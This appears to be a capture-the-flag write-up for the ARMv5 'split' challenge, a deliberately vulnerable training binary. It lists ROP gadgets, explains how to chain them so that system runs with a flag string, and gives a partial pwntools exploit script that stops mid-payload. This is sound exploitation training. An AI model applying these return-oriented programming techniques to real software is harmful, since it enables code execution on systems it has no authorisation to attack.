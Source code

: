 ```
0x00010640: bne #0x624; pop {r4, r5, r6, r7, r8, sb, sl, pc}; andeq r0, r1, r0, lsl sb; andeq r0, r1, r8, lsl #18; bx lr; 
0x00010650: bx lr; 
0x00010650: bx lr; push {r3, lr}; pop {r3, pc}; 
0x000104a4: bx r3; 
0x000104a0: bxeq lr; bx r3; 
0x00010494: bxeq lr; ldr r3, [pc, #0x10]; cmp r3, #0; bxeq lr; bx r3; 
0x0001049c: cmp r3, #0; bxeq lr; bx r3; 
0x000104f8: cmp r3, #0; popne {r4, pc}; bl #0x488; mov r3, #1; strb r3, [r4]; pop {r4, pc}; 
0x00010490: cmp r3, r0; bxeq lr; ldr r3, [pc, #0x10]; cmp r3, #0; bxeq lr; bx r3; 
0x0001063c: cmp r6, r4; bne #0x624; pop {r4, r5, r6, r7, r8, sb, sl, pc}; andeq r0, r1, r0, lsl sb; andeq r0, r1, r8, lsl #18; bx lr; 
0x00010498: ldr r3, [pc, #0x10]; cmp r3, #0; bxeq lr; bx r3; 
0x00010628: ldr r3, [r5], #4; mov r2, sb; mov r1, r8; mov r0, r7; blx r3; 
0x00010634: mov r0, r7; blx r3; 
0x00010630: mov r1, r8; mov r0, r7; blx r3; 
0x0001062c: mov r2, sb; mov r1, r8; mov r0, r7; blx r3; 
0x00010504: mov r3, #1; strb r3, [r4]; pop {r4, pc}; 
0x000103a4: pop {r3, pc}; 
0x0001050c: pop {r4, pc}; 
0x00010644: pop {r4, r5, r6, r7, r8, sb, sl, pc}; andeq r0, r1, r0, lsl sb; andeq r0, r1, r8, lsl #18; bx lr; 
0x00010644: pop {r4, r5, r6, r7, r8, sb, sl, pc}; andeq r0, r1, r0, lsl sb; andeq r0, r1, r8, lsl #18; bx lr; push {r3, lr}; pop {r3, pc}; 
0x000104fc: popne {r4, pc}; bl #0x488; mov r3, #1; strb r3, [r4]; pop {r4, pc}; 
0x0001039c: push {r3, lr}; bl #0x464; pop {r3, pc}; 
0x00010654: push {r3, lr}; pop {r3, pc}; 
0x00010508: strb r3, [r4]; pop {r4, pc}; 
```

```
0x00010634: mov r0, r7; blx r3;
```

but we can create a rop chain that insert into r0 the value stored into r7 and after the mov blx into r3 (blx branch link exchange 
basically junp to the address contained into r3 and then return to the instruction after this).

so now we need to place the value of the strin into r7 and then exploit the blx in order to jump to the call system and so we need to insert into
r3 the address of where the system function is called.

```
0x000103a4: pop {r3, pc};
0x00010644: pop {r4, r5, r6, r7, r8, sb, sl, pc}
```

with this two gadget we can insert a value into r7 and into r3.

we have all that we need to complete the challenge now!


```python
from pwn import *
context.binary = elf = ELF('./split_armv5')
offset = 36

call_system = 0x105e0
mov_r0_r7_blx_r3 = 0x10634
pop_r4_r5_r6_r7_r8_sb_sl_pc = 0x10644
flag_string = 0x2103c
pop_r3_pc = 0x000103a4

payload = b'A'*offset
payload += p32(pop_r3_pc) # because after with a gadget blx r3 
payload += p32(call_system)

# here after all pop jump to pc!
```